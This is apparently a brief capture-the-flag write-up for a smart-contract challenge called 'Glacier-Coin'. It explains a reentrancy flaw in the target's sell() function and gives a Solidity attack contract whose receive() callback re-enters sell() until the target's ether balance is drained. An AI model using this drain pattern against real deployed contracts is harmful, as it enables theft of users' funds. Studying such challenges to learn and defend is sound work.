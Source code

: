 # Glacier-Coin

The solution is a reentrancy vulnerability in the `sell()` function

We can reenter it with:
```solidity
function attack() external payable
    {
        require(msg.value == 10 ether);
        target.buy{value: 10 ether}();
        target.sell(10 ether);
        owner.call{value: 20 ether}("");
    }   

    receive() external payable
    {
        // Reenter
        if (address(target).balance != 0) {
            target.sell(10 ether);
        }
    }
```
